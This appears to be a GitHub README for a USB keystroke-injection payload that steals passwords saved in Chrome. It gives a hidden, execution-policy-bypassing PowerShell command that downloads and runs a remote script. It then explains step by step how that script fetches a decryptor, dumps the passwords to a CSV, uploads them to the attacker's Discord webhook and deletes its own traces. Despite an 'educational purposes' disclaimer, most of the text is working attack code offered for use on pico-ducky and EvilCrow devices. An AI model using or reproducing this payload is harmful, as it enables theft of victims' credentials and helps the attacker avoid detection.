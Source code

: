THIS SCRIPT IS ONLY INTENDED FOR EDUCATIONAL PURPOSES
(decrypt script made by ohyicong)

# What it does

This payload downloads and executes a powershell script that downloads a python chrome password decryptor, and then sends the decrypted passwords over discord using webhooks.

# Dependencies:
- Windows
- Python

# How to use

## Pico-Ducky

If you have a [pico-ducky](https://github.com/dbisu/pico-ducky) which is what this payload was originally built for you just download the ``password-stealer-pico.dd`` and place it in the root of your pico directory. If you have a pico-ducky without wifi you need to rename it to ``payload.dd`` ``payload2.dd`` ``payload3.dd`` or ``payload4.dd`` read more here [here](https://github.com/dbisu/pico-ducky).

## Evilcrow cable-pro

Copy the contents of the ``password-stealer.h`` to your ``payload.h`` file on your [EvilCrow Cable-pro](https://github.com/joelsernamoreno/EvilCrowCable-Pro/tree/main)

## P4wnP1 A.L.O.A

I am working on a version for HID script

## Any other ducky script compatible tools

I havent tested any others but if you do please open up an issue and tell me how it went

# How it Works:

(This code is very unoptimized, but i havent bothered fixing it)

## The rubber ducky script
When the grabber.dd runs it opens a run dialoge and enters this script.

```powershell
powershell -W h -NonI -NoP -Ep bypass -c "$dc = '<your discord webhook here>'; irm https://shorturl.at/bMQ15 | iex
```
This line opens a hidden windows with ``-W h`` a non interactive windows with ``-NonI`` no user profiles with ``NoP`` and bypasses the anti script execution policy using ``-Ep bypass``
Then it sets the ``$dc`` variable to your webhook.
And last but not least it downloads the starter.ps1 script and executes it. The download link is shortened to fit inside the run dialoge. (I want to host my own site in the future where i can have my own directly short links)

## The powershell script

The powershell script is used as sort of a base of operations, it downlaods the python password decryptor and sends the file over discord. Heres how it works:

### Extracting the passwords:

To extract the passwords saved in chrome we use a python script made by ohyicong, if you are interested in how it works you can read his [medium article](https://ohyicong.medium.com/how-to-hack-chrome-password-with-python-1bedc167be3d)

First we tell powershell where python is located on the system so we can use it to execute the script:
```powershell
$filePath = "$env:LocalAppData\Programs\Python\Python311\python.exe"
```
Then we install the needed python libraries, if the user already have the libraries pip will automaticly cancel the installation and the script will proceed wither way.
```powershell
py -m pip install pycryptodomex pywin32
```
Then we download the python script the same way the rubber ducky script downloaded the ```starter.ps1``` scrip:
```powershell
Invoke-WebRequest -Uri https://github.com/simen64/Pico-HID-Scripts/blob/main/chrome-password-stealer/decrypt_chrome_password.py -OutFile $Env:USERPROFILE\Documents\stealer.py
```
Now we run the python script using this line. The ```&``` tells powershell to execute a command. The ```$env``` variable is where python is located and the ```$Env``` variable is where the python script is saved from the previous step
```powershell
& $env:LocalAppData\Programs\Python\Python311\python.exe $Env:USERPROFILE\Documents\stealer.py
```

### Sending the passwords over Discord

This part of the code is what takes the decrypted passwords file and sends it to you over discord.

First we define the user thats logged into the computer, this will be used to acces folders like ```C:\Users\User\Documents\```
```powershell
$user = $env:USERNAME
```
Then we use the now defined &user variable to define where the file ```decrypted_password.csv``` file is stored, this file contains the passwords that the python script previosly extracted.
```powershell
$file = "C:\Users\$user\Documents\decrypted_password.csv"
```
This variable plains and simple tells discord what message to deliver the file with
```powershell
$message = "Extracted passwords:"
```
This line of code is used to generate a unique identifier for the message each time the script is ran
```powershell
$boundary = [System.Guid]::NewGuid().ToString()
```
Here we read the ```decrypted_password.csv``` file from the previously defined ```$file``` variable and saves it into a variable called ```$fileContent```
```powershell
$fileContent = [System.IO.File]::ReadAllBytes($file)
```
This code takes all of the now gathered information and puts it into an array called ```$bodyLines``` that is joined to one string in a variable called ```body```
```powershell
$bodyLines = @(
    "--$boundary",
    "Content-Disposition: form-data; name=`"content`"",
    "",
    $message,
    "--$boundary",
    "Content-Disposition: form-data; name=`"file`"; filename=`"file.txt`"",
    "Content-Type: application/octet-stream",
    "",
    [System.Text.Encoding]::Default.GetString($fileContent),
    "--$boundary--"
)

$body = $bodyLines -join "`r`n"
```
After that is gathered we have to define the http headers for the webhook, we set the header to ```multipart/form-data``` so it know that we are sending a file. Then we give the request or unique identifier with the variable ```$boundary``` that we generated earlier.
```powershell
$headers = @{
    "Content-Type" = "multipart/form-data; boundary=$boundary"
}
```
Last but not least we invoke a web request to our webhook with all of our information. This includes setting the request to POST, including the headers and the body.
```powershell
Invoke-RestMethod -Uri $webhookUrl -Method Post -Headers $headers -Body $body
```
And after the script is done it self destructs and deletes all the files downloaded, ```$MyInvocation.MyCommand.Source``` is a built in powershell variable that defines the script that its being called from.
```powershell
Remove-Item stealer.py -Force
Remove-item decrypted_password.csv -Force
Remove-Item -Path $MyInvocation.MyCommand.Source
```
